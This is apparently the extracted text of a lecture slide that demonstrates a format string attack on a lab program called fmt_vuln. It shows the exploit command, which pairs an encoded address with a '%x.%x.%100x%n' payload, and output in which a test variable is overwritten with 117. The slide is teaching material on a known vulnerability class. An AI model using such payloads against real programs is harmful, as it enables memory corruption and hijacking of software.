

60
#
$./fmt_vuln `printf “\x70\x95\x04\x08”`%x.%x.%100x%n
The right way
%x.%x.%100x%n
The wrong way
Bffff5a0.3e8.                     			      							3e8
Testval @0x08049570 =117 0x00000075